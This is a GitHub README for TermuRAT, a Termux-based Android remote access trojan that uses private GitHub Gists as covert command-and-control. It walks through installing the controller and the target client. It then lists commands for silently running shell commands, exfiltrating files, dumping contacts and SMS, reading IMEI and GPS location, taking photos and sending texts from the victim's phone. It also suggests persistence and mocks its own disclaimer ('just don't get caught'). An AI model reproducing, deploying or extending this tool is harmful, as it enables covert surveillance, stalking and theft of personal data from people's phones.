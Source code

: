 # TermuRAT

**TermuRAT** is a stealthy, terminal-based Android Remote Access Trojan (RAT) built for Termux. It uses private GitHub Gists as a command-and-control (C2) channel, allowing remote command execution and data exfiltration without direct connections or suspicious traffic.

## ⚙️ Features

- 🕵️ **Runs fully in Termux**
- 🛰️ **Gist-based C2** – Pulls commands and uploads results via GitHub Gists.
- 🧠 **Timestamp logic** – Executes commands only when the Gist updates.
- 🧼 **Clean & Minimal** – Lightweight, no dependencies beyond Termux and python in it.

## 🧠 How It Works

1. The Termux script checks a private GitHub Gist at intervals.
2. If the Gist has changed timestamp, it fetches the new command.
3. The command is executed locally in Termux in the target device.
4. The output is pushed back to another Gist as response.

## 📁 Structure

- `target.py` – Main RAT client script (runs on the target via Termux).
- `host.py` – Control-side script to send commands and fetch results.

## 🚀 Setup

1. Create a **GitHub Token**.
2. Set your GitHub token in host scripts.
3. Run `host.py`. It will genarate the gists and print in terminal.
4. Paste the token and gist id in target device and run `target.py` on target device via Termux.
5. Use `host.py` to send commands and read results.

## 📦 Requirements

- Termux and Termux:Api installed on target device.
- GitHub account & token with Gist access
- Terminal to send the command to target device.

## ⚠️ Disclaimer

This tool is for **educational and ethical research purposes only**. Unauthorized access to devices or systems is illegal and unethical. You are responsible for how you use TermuRAT.

## 🛠️ Installation

### On the **Host** (Control Machine):
```bash
pkg update && pkg upgrade
pkg install python git
pip install requests
git clone https://github.com/opsonusdh/TermuRAT
cd TermuRAT/HostSide
python host.py
```
🧠 host.py will auto-generate the required Gists and display their IDs. Like:
```json
{"token": "<your token>", "to_target_gist_id": "<gist_id1>", "to_host_gist_id": "<gist_id2>"}
```

Copy it and paste it in target device.


### On the **Target Device** (Termux):
```bash
pkg update && pkg upgrade
pkg install python git termux-api
pip install requests
git clone https://github.com/opsonusdh/TermuRAT
cd TermuRAT/TargetSide
nano data.json
```
Here you can see json like this: 
```json
{"token": "", "to_target_gist_id": "", "to_host_gist_id": ""}
```
⚠️ Make sure to paste the GitHub Token and Gist ID from host device.
Then run
```bash
python target.py
```

## 🧨 What Can You Do with TermuRAT?

- 🔍 **Run Shell Commands**  
  Execute any shell command on the target device—silently.

- 📂 **Access Files**  
  List directories, read file contents, or exfiltrate sensitive data.

- 📸 **Use Device Sensors**  
  If Termux:API is enabled, access location, battery status, or even take photos.

- 🧾 **Install or Run Scripts**  
  Deploy and run additional payloads or scripts on the fly.

- 🔁 **Persistent Execution**  
  With a little tweaking, make it auto-run at boot like a true lurker.

- 📡 **Communicate Silently**  
  No ports, no listeners—just GitHub being abused like a C2 server.

> And yes, it all happens through a tiny GitHub Gist. Told you it was sneaky.

## 🧪 Example Usage

After launching `target.py`, you can use various commands. Some examples are given below:


termux-toast "You’ve been hacked 😈" [Display a toast message (for fun or trolling)]

termux-vibrate -d 1000 [Vibrate the device for 1 second]

termux-battery-status [Get battery level, charging status, and health]

termux-location [Get the device's current GPS coordinates]

termux-camera-photo -c 0 [Take a photo using the front camera]
 
termux-camera-photo -c 1 [Take a photo using the rear camera]

termux-sensor -l [List all available hardware sensors]

termux-sensor -s accelerometer,gyroscope,light -n 2 | timeout 5 cat [Get real-time accelerometer data]

termux-telephony-deviceinfo [Fetch device IMEI, carrier info, and more]

termux-wifi-connectioninfo [Show current Wi-Fi connection details]
  
termux-contact-list [Dump all saved contacts]

termux-sms-list [List received SMS messages]
 
termux-sms-send -n 1234567890 "Yo, this phone is mine now." [Send an SMS from the target]

termux-notification --title "Warning" --content "You’re being watched." [Push a custom notification]

termux-dialog text [Show a prompt dialog (requires user input)]

df -h [Show internal storage usage stats]

ls /sdcard/ [List files in the device's internal storage]

cat /sdcard/secret.txt [Read contents of a specific file]

top -n 1 [Display real-time system resource usage]

ps -A [List all running processes]  
curl ifconfig.me [Get the device's public IP address]

uptime [Check how long the device has been running]

whoami [Display the current user (usually u0_aXXX in Termux)]

termurat exit -h [Internal command of TermuRAT to exit the program]


## ❌ Cons (a.k.a. Why TermuRAT Isn't God Mode... Yet)

- 📱 Requires Termux to be **open and running** on the target (no background daemon magic)
- 🐢 Kinda slow due to polling + GitHub latency (not for real-time thrills)
- 🔑 Needs a valid **GitHub token** with Gist access (and could get rate-limited or flagged)
- 🌐 Requires internet access on both sides (obviously)
- 🧠 No built-in encryption (commands and responses are plain JSON unless you DIY it)
- 🔒 Cannot bypass Android permission prompts (Termux:API features may require manual grants)
- 🚫 No persistence out-of-the-box (won’t auto-restart after reboot unless you rig it)
- 🤖 Heavily dependent on Termux:API (some devices or versions might lack support)
- 👁️ Easily detectable by someone opening Termux and seeing output or history
- 💥 Can break if Gist is deleted, token revoked, or GitHub throws a tantrum

> Think of TermuRAT as a stealthy intern—it’ll do your bidding, but it won’t take over the world. Yet.


## 🧠 Final Words

TermuRAT is a proof of concept that shows how simple tools can be repurposed for powerful, stealthy control—without fancy exploits, just creativity and clever abuse of APIs. While it’s not a military-grade RAT, it gets the job done quietly, like a whisper in the terminal.

Use it wisely. Use it ethically. Or don’t—just don’t get caught.



**Built with Python, powered by GitHub, operated through Termux.** 
